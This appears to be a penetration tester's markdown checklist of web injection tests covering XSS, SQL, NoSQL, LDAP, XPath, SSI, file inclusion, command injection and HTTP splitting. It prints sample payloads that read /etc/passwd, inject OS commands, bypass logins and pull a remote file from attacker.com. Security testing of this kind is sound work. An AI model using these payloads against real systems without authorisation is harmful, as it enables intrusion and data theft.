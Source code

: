 - [ ] testing for reflected XSS - inject into forms
- [ ] testing for stored XSS - inject into forms
- [ ] testing for HTTP verb tampering - craft custom HTTP requests to test the other methods to bypass URL authentication and authorization
- [ ] testing for HTTP parameter pollution - identify any form or action that allows user-supplied input to bypass input validation and filters using HPP
- [ ] testing for SQL injection - union, boolean, error based, out of band, time delay
- [ ] testing Oracle - identify URLs for PL/SQL web applications, access with PL/SQL packages, bypass PL/SQL exclusion list, SQL injection
- [ ] testing MySQL - identify mySQL version, single quote, information_schema, read/write file
- [ ] SQL server testing - comment operator (--), query seperator (;), stored procedures (xp_cmdshell)
- [ ] testing postgreSQL - determine that the backedn database engine is postgres by using the :: cast operator, read/write files, shell injection
- [ ] MS access testing - enumerate the column through error-based (group by), obtain database schema combine with fuzzdb
- [ ] testing for NoSQL injection - identify NoSQL databases, pass special characters ('"\\;{})), attack with reserved variable name, operator.
- [ ] testing for LDAP injection - /ldapsearch?user=*user=*user=*)(uid=*))(|(uid=*pass=password
- [ ] test for ORM injection - Testing ORM injection is identical to SQL injection testing
- [ ] test for XML injection -Check with XML Meta Characters ', " , <>, <!--/-->, &, <![CDATA[ / ]]>, XXE, TAG
- [ ] test for SSI injection - Presense of .shtml extension, Check for these characters, < ! # = / . " - > and \[a-zA-Z0-9], include String = \<!--#include virtual="/etc/passwd" -->
- [ ] test for XPath injection - check for XML error enumeration by supplying a single quote ('), username: ' or '1' ='1, password: ' or '1' ='1
- [ ] IMAP/SMTP injection - identifying vulnerable parameters with special characters - (.: \\, ‘, “, @, #, !, , Understanding the data flow and deployment structure of the client, IMAP/SMTP command injection (Header, Body, Footer)
- [ ] test for code injection - Enter OS commands in the input field - ?arg=1; system('id')
- [ ] test for local file inclusion - LFI with dot-dot-slash (../), PHP wrapper (php://filter/convert.base64-encode/resource)
- [ ] test for remote file inclusion - RFI from malicious URL ?page.php?file=http://attacker.com/malicious_page
- [ ] test for command injection - understand the app platform, OS, folder structure, relative path and execute OS commands on a web server %3Bcat%20/etc/passwd, test.pdf+\\+Dir C:\\
- [ ] test for buffer overflow - test for heap overflow vuln, stack overflow, or format string vulnerabilities
- [ ] test for incubated vulns - file upload, stored XSS, SQL/XPATH injection, misconfigured servers
- [ ] test for HTTP splitting/smuggling - param=foobar%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2035%0d%0a%0d%0a<html>Sorry,%20System%20Down</html>